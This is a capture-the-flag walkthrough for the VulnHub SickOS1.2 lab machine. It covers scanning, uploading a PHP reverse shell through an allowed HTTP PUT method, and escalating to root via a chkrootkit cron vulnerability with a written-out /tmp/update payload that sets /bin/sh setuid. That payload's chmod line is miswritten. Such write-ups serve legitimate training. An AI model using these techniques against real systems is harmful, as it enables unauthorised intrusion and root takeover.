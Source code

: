 ```yaml
---
layout: page
title: VulnHub - SickOS1.2
description: Walkthrough - SickOS1.2
dropdown: Walkthroughs
priority: 1
---
```

## VM Description

This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. The objective being to compromise the network/machine and gain Administrative/root privileges on them.

It is second in following series from SickOs and is independent of the prior releases. 

This CTF is a good training material for the OSCP certification.

Download: [SickOS1.1](https://www.vulnhub.com/entry/sickos-12,144/)

Author: [D4rk](https://www.vulnhub.com/author/telspace,90/)

## Enumeration

We configure the VM in bridge mode. In order to determine its assigned IP, we run the below command:

```bash
$arp-scan -I wlan0 -l 
```

#### Service Enumeration

```bash
$nmap -sV -sC -p- -oA nmap/nmap 192.168.1.42
```

<div class="row">
  <div class="col-md-6">
    <table class="table table-bordered">
      <thead>
        <tr>
          <th>Open port</th>
          <th>Service</th>
          <th>Version</th>
        </tr>
      </thead>
      <tbody>
        <tr>
          <td>22</td>
          <td> SSH </td>
          <td>OpenSSH 5.9p1</td>
        
        </tr>
        <tr>
         <td> 80 </td>
          <td> Http </td>
          <td> Lighttpd 1.4.28</td>
        </tr>
       </tbody>
    </table>
  </div>
</div>


#### Web Server Directory Enumeration 

```bash
$gobuster dir -u http://192.168.1.42 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt -o gobuster-80.txt
```

Gobuster returns only one indexed directory named test which we need to manually check. 

Let's see which methods are allowed by sending an OPTIONS request. 

![options](../assets/img/Walkthroughs/sickos1.2/1.png)

Multiple methods are allowed including PUT. 

## Exploit

The exploit consists in uploading a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell) using the PUT command. There are different ways to do that. To mention a few, we can use:

1. Nmap
2. Burp Suite
3. Curl/wget 

File upload using Nmap:
![upload using nmap](../assets/img/Walkthroughs/sickos1.2/2.png)

File upload using Burp:
![upload using burp](../assets/img/Walkthroughs/sickos1.2/3.png)

Files uploaded successfully:
![list of uploads](../assets/img/Walkthroughs/sickos1.2/4.png)

Now that the reverse shell is uploaded successfully, let's set up a Netcat listener and run it: 

![reverse shell](../assets/img/Walkthroughs/sickos1.2/5.png)

Awesome! We have reverse shell as www-data. 

## Privilege Escalation

 <div class="panel panel-info">
      <div class="panel-heading">
        <h3 class="panel-title">Tip:</h3>
      </div>
      <div class="panel-body">
        When doing an old CTF (This one is from 2016), it is always important to note down the exact date the machine was released. This is because the target is probably vulnerable to multiple Kernel exploits by now. If we decide to look for kernel exploits, we need to check the PoC release date to see if it's older than the machine or not. 
      </div>
    </div>

In this case, we don't find kernel exploits disclosed before the machine release date. Since we want to resolve the machine the intended way, we can go ahead and look for other attack vectors. However, if you would like to test a kernel exploit either way, the target is vulnerable to [CVE-2016-5195.](https://www.exploit-db.com/exploits/40616)

You will need to comment out the payload for x86 architecture and uncomment the payload for x64 instead before compiling the exploit. 

#### Privilege Escalation the intended way

When looking for cron jobs, we notice the presence of chkrootkit and lighttpd. This is not the default configuration. Chances are, there is a vulnerability we can exploit. 

![cron jobs](../assets/img/Walkthroughs/sickos1.2/6.png)

We check the version of chkrootkit. It's 0.49. 

![chkrootkit version](../assets/img/Walkthroughs/sickos1.2/7.png)

A quick google search returns that the target is vulnerable [CVE-2014-0476](https://www.exploit-db.com/exploits/38775)

We follow the steps described in the article and insert a payload into update under /tmp directory:

```bash
$cat /tmp/update
#!/bin/bash
chown root:root /bin/sh ; chmod +x 4777 /bin/sh
$ chmod +x /tmp/update
```

![update](../assets/img/Walkthroughs/sickos1.2/8.png)

Now we can execute /bin/sh. We have the effective user id of root (0). Awesome. 

![euid](../assets/img/Walkthroughs/sickos1.2/10.png)

Let's read the flag :) 

![reverse shell](../assets/img/Walkthroughs/sickos1.2/9.png)
